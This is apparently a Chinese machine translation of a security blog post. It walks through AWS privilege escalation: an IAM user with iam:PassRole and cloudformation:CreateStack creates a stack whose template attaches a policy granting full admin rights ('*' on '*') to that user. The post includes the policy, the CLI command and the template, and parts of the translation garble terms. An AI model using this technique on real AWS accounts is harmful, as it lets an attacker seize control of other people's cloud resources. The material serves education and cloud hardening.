





# 将角色传递给 AWS CloudFormation 以提升权限

> 原文：<https://infosecwriteups.com/passing-a-role-to-cloudformation-to-escalate-privileges-602010d26f55?source=collection_archive---------0----------------------->



最小特权原则是只授予完成任务所需的权限。但是如何在 AWS 云中实现最小特权和安全构建呢？您可能只是利用附加到 IAM 用户或 IAM 角色的 AdministratorAccess 策略来删除过多的特权，而不会注意到具有额外特权的角色或资源通过 iam:PassRole 等其他方式隐式授予。

在这篇博客文章中，CloudFormation 用例将描述 IAM 用户如何使用 iam:PassRole 获得不受约束的权限提升。

# 必备知识

**自动气象站云形成**

AWS CloudFormation 是一项以有序方式提供 AWS 资源集合的服务，这些 AWS 资源包括 IAM 用户/角色的内嵌策略。

AWS CloudFormation 使用模板和堆栈。模板描述了 AWS 资源及其属性。每当创建 AWS CloudFormation 堆栈时，只要指定一个模板，就会提供模板中描述的资源。

模板中所有 AWS CloudFormation 支持的 AWS 资源和属性类型都可以在[这里](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-template-resource-type-ref.html%20)找到。

在利用部分，通过 AWS CloudFormation 提升 IAM 用户的权限，将使用以下语法创建内联策略并将其附加到 IAM 用户:

```
Type: AWS::IAM::Policy
Properties: 
  Groups: 
    - String
  PolicyDocument: Json
  PolicyName: String
  Roles: 
    - String
  Users: 
    - String
```

**IAM:PassRole**

有时，当您使用 AWS 服务执行某些操作时，您需要向这些服务传递一个角色，这样它们就可以隐式地(不执行 sts:AssumeRole)承担该角色来完成操作。

以 AWS CloudFormation 为例，当使用如下所示的 AWS cli 创建堆栈时，您向堆栈传递一个指定为 arn _ of _ cloud formation _ service _ role 的角色，后跟–- role-arn 标志，否则操作可能会由于权限不足而失败。

```
aws cloudformation create-stack –-stack-name demo_stack –-template-body file://malicious-template.yaml –-role-arn arn_of_cloudformation_service_role
```

并非每个人都有权将角色传递给服务，只有拥有 iam:PassRole 权限的用户才能这样做。

# 攻击场景

为简单起见，假设有一个攻击者拥有 IAM 用户 awsSecLab，该用户只拥有下面策略中描述的有限权限。

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "iam:PassRole",
                "iam:Get*",
                "iam:List*",
                "cloudformation:CreateStack"
            ],
            "Resource": "*"
        }
    ]
}
```

由于 IAM 用户 awsSecLab 被授权创建 CloudFormation 堆栈，他决定试试运气，并搜索 CloudFormation 可以承担的角色，同时浏览 IAM 角色列表，他找到了 cloudformation-demo 角色，具有以下受信任的实体。



cloudformation-demo 角色包含一个内嵌策略调用 cloudformation-demopolicy，该策略使 cloudformation 能够更新附加到 IAM 用户的策略。



现在，权限提升所需的所有东西(攻击者传递角色和创建 CloudFormation 堆栈的权限，cloudformation-demo 角色可以由 AWS CloudFormation 承担，从而允许它为攻击者更新策略)都已准备就绪，IAM 用户 awsSecLab 决定尝试一下。

# 剥削

为了提升权限，IAM 用户 awsSecLab 创建了下面的 CloudFormation 模板，旨在为自己添加一个内联策略，这样他将拥有 admin 权限。模板在本地保存为 IAM_Policy_CF.yaml。

```
AWSTemplateFormatVersion: 2010-09-09
Description: Basic IAM Role
​
Resources:
    AutoTemplate:
        Type: 'AWS::IAM::Policy'
        Properties:
          PolicyName: root
          PolicyDocument:
            Version: "2012-10-17"
            Statement:
              - Effect: Allow
                Action: '*'
                Resource: '*'
          Users:
            - awsSecLab
```

要提供模板中描述的策略，AWS CloudFormation 堆栈应该对 iam 用户 awsSecLab 使用 iam:PutUserPolicy 权限。由于 iam 用户 AWS clab 可以传递 cloudformation-demo 角色来授予 iam:PutUserPolicy 对 AWS CloudFormation 堆栈的权限，因此在他为传递的角色发出如下带有- role-arn 标志的`aws cloudformation create-stack` cli 后，堆栈将创建名为 root 的内联策略，并将其附加到 IAM 用户 AWS clab。



IAM 用户 awsSecLab 在 AWS IAM 控制台中检查 IAM 用户设置，他可以看到附加的根策略，这意味着他获得了管理员权限。



现在，您已经学习了如何通过向 AWS CloudFormation 传递角色来执行特权操作。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！